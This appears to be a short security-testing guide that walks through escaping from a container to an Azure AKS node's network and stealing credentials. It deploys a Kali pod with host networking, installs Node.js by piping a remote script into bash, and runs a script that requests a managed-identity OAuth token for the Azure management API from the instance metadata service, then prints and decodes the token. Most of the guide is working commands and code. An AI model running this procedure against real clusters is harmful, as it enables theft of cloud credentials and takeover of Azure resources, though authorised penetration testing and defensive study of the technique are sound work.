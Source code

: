 # Test Container to Node escape

**Prereqs**

In Azure CLI have cluster ready and kubectl installed  (these depedencies are not explored further in this post)

```sh
az aks create -n myAKSCluster -g myResourceGroup --enable-addons azure-keyvault-secrets-provider --enable-managed-identity
az aks get-credentials --resource-group $NAMER --name $NAME --admin
```

**Kali image**

- save image to spec.yaml


```yaml
apiVersion: v1
kind: Pod
metadata:
  name: kali
  labels:
    app: kali
spec:
  containers:
  - name: kali
    image: kalilinux/kali-rolling
    command:
        - "/bin/sleep"
        - "10000"
  hostNetwork: true
  dnsPolicy: Default
```

```sh
kubectl apply -f spec.yaml
kubectl exec --stdin --tty kali -- /bin/bash

```

---

# Once in KALI Shell

```sh
apt update -y;
apt install curl -y;


curl -o- https://raw.githubusercontent.com/nvm-sh/nvm/v0.39.0/install.sh | bash

export NVM_DIR="$([ -z "${XDG_CONFIG_HOME-}" ] && printf %s "${HOME}/.nvm" || printf %s "${XDG_CONFIG_HOME}/nvm")"
[ -s "$NVM_DIR/nvm.sh" ] && \. "$NVM_DIR/nvm.sh" # This loads nvm

nvm install 14

nvm use 14

mkdir getToken

cd getToken

echo '
{
  "name": "imds",
  "version": "1.0.0",
  "description": "",
  "main": "index.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "keywords": [],
  "author": "",
  "license": "ISC",
  "dependencies": {
    "axios": "^0.27.2",
    "jsonwebtoken": "^8.5.1"
  }
}
' > package.json

npm install

echo '

const { default: axios } = require("axios");
const { decode } = require("jsonwebtoken");

getToken()
async function getToken () {

    let options ={
        url:"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com",
        headers:{
            metadata:true
        }
    }
    let {data} = await axios(options).catch(error => console.log(error?.response?.data || error))
    console.log(data)
    console.log(decode(data?.access_token))
}

' > getToken.js

node getToken.js

```

**Expected end result**

![](20220830101015.png)  
